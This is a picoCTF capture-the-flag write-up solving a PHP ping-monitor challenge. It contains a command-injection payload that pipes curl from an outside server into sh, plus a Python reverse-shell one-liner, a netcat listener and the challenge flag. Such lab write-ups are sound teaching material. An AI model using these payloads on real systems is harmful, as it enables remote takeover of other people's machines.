


# fancy-alive-monitoring [400pts]
> One of my school mate developed an alive monitoring tool. Can you get a flag from http://2018shell1.picoctf.com:56517 ?

Site looks like this:


We look at the index source code:

```php
<html>
<head>
	<title>Monitoring Tool</title>
	<script>
	function check(){
		ip = document.getElementById("ip").value;
		chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
		if (!chk) {
			alert("Wrong IP format.");
			return false;
		} else {
			document.getElementById("monitor").submit();
		}
	}
	</script>
</head>
<body>
	<h1>Monitoring Tool ver 0.1</h1>
	<form id="monitor" action="index.php" method="post" onsubmit="return false;">
	<p> Input IP address of the target host
	<input id="ip" name="ip" type="text">
	</p>
	<input type="button" value="Go!" onclick="check()">
	</form>
	<hr>

<?php
$ip = $_POST["ip"];
if ($ip) {
	// super fancy regex check!
	if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
		exec('ping -c 1 '.$ip, $cmd_result);
		foreach($cmd_result as $str){
			if (strpos($str, '100% packet loss') !== false){
				printf("<h3>Target is NOT alive.</h3>");
				break;
			} else if (strpos($str, ', 0% packet loss') !== false){
				printf("<h3>Target is alive.</h3>");
				break;
			}
		}
	} else {
		echo "Wrong IP Format.";
	}
}
?>
<hr>
<a href="index.txt">index.php source code</a>
</body>
</html>
```

We see that there is validation on two sides: the client side and the server side. We can bypass client-side validation easily by either turning off javascript or directly POSTing to the endpoint. We'll use Postman and choose the latter.

Next is the server-side validation which contains a really _really_ long RegEx pattern that looks scary. We don't really care about most of it though because essentially all it means is it has to have an IP format in it. That **does not** mean we can't **attach stuff to the end**.

We can see that the most important line is

```
exec('ping -c 1 '.$ip, $cmd_result);
```

php's exec function is inherently vulnerable and should allow us to get remote command execution (RCE). We'll chain a curl statement to the IP.

```
8.8.8.8 && curl 192.34.59.172:8000 | sh;
```

We're just using 8.8.8.8 as a generic IP address; it doesn't matter. As for the curl statement, it will read a file on our server and pipe that to sh. If you need a server, I find [**Digital Ocean**](https://m.do.co/c/6328c4d4cd53) to be pretty good (If you click that link, you get $100 in credits, and I get $25).

On our server, it'll have some sort of remote shell exec code. You can find a bunch of these on [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

In my case I used the python one.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We'll also have to open up a port on our server. One of the easiest ways to do that is via netcat.

```
nc -l <PORT>
```

In the remote shell exec code, make sure to change the default args like `<IP>` and `<PORT>` to your own server's one.


The request looks like its still loading because it's listening before completing the HTTP request. Let's check the terminal.



There's your flag. `picoCTF{n3v3r_trust_a_b0x_91345b04}`